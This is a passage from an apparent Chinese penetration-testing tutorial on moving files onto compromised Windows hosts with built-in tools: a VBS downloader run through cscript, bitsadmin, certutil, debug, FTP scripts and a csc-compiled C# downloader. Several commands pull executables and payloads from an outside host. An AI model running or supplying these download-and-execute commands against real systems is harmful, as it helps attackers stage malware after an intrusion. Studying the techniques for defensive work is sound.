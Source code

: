 其次就是通过echo写入vbs脚本，再通过cscript来执行

```powershell
  ● echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> c:\windows\temp\d.vbs
  ● C:\Users\Administrator>cscript c:\d.vbs http://reverse-tcp.xyz/443.exe c:\443.exe
```

#### Bitsadmin

[bitsadmin](https://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx)是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。不支持https、ftp协议

```powershell
bitsadmin /TRANSFER /DOWNLOAD http://download.sysinternals.com/files/PSTools.zip  E:\PSTools.zip
bitsadmin /TRANSFER /DOWNLOAD \\webdavserver\folder\payload.ps1  E:\payload.ps1
bitsadmin /TRANSFER /UPLOAD E:\payload.ps1 \\webdavserver\folder\payload.ps1
```

#### Certutil

Certutil是一个命令行程序，它是作为证书服务的一部分安装的。可以使用Certutil转储并显示证书颁发机构(CA)配置信息、配置证书服务、备份和恢复CA组件，并验证证书、密钥对和证书链。

```powershell
certutil -urlcache -split -f http://reverse-tcp.xyz/payload payload
```

#### debug

Windows debug 是一个系统自带的程序调试工具，他有一个功能可以将十六进制转化为可执行文件，所以我们的思路就是将需要上传的可执行文件转化成hex文件，通过echo命令写入目标系统中，最后通过debug将hex还原成可执行文件，这一部分具体步骤可参考我之前的一篇[文章](http://reverse-tcp.xyz/2017/05/27/Some-Ways-To-Create-An-Interactive-Shell-On-Windows/)

#### FTP

ftp也是一种比较经典的方法，核心就是通过ftp -s:filename.txt去执行filename里边的ftp命令

```powershell
echoopen192.168.1.123 21> ftp.txt
echoftp>> ftp.txt
echobin >> ftp.txt
echoftp>> ftp.txt
echoGET ssss2.exe >> ftp.txt
ftp-s:ftp.txt
```

#### CSC

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

当然思路还是将cs文件echo写入目标系统

```powershell
echo using System.Net;class WebDL { static void Main(string[] args){System.Net.WebClient client = new WebClient();client.DownloadFile(args[0],args[1]);}} > c:\windows\temp\dl.cs
```

然后调用csc.exe编译cs文件并执行
